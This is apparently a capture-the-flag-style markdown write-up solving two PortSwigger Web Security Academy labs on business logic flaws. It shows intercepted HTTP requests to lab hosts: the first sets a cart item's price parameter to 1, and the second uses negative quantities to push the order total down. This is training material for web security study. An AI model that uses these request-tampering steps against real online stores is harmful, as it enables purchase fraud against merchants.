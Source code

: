 # Business logic vulnerabilities


<details>
  <summary>Lab: Excessive trust in client-side controls</summary>

1. login using ``wiener:peter``
2. navigate ``home`` page and select product
3. Click ``add to cart`` with intercept the request

```http
POST /cart HTTP/1.1
Host: 0a43003003147e1c811880e3005d006f.web-security-academy.net
Cookie: session=4kC0DYbpfMKStrmFfEaBoLoLBYYPDH5K
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://0a43003003147e1c811880e3005d006f.web-security-academy.net
Referer: https://0a43003003147e1c811880e3005d006f.web-security-academy.net/product?productId=17
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive



productId=17&redir=PRODUCT&quantity=1&price=4817
```



set ``price`` to ``1``

```url
productId=17&redir=PRODUCT&quantity=1&price=1
```

back to cart and cilck ``place order``

![image](https://github.com/user-attachments/assets/2b7dbfc5-e7ed-4038-b01e-bb46220eaa69)



  
</details>







<details>
  <summary>Lab: High-level logic vulnerability</summary>

1. login using ``wiener:peter``
2. navigate ``home`` page and select product
3. Click ``add to cart`` with intercept the request

```http
POST /cart HTTP/1.1
Host: 0a43003003147e1c811880e3005d006f.web-security-academy.net
Cookie: session=4kC0DYbpfMKStrmFfEaBoLoLBYYPDH5K
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://0a43003003147e1c811880e3005d006f.web-security-academy.net
Referer: https://0a43003003147e1c811880e3005d006f.web-security-academy.net/product?productId=17
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive



productId=1&redir=PRODUCT&quantity=1
```

Notice that there is not ``price`` parameter but there is ``quantity`` try to put it with negative:

```url
productId=1&redir=PRODUCT&quantity=-1
```
notice that the price also became negative

![image](https://github.com/user-attachments/assets/b198bffa-1368-4b26-b5c1-5901bdd4fc4f)

if you click ``place order`` this error appear

```http
Cart total price cannot be less than zero
```

> ### now try to shoose sheap product and add it more than one time with negative and add the wanted product just one time with positive:

![image](https://github.com/user-attachments/assets/4a57f6fa-320e-400f-9596-54e2305cf0f3)


  
</details>




































































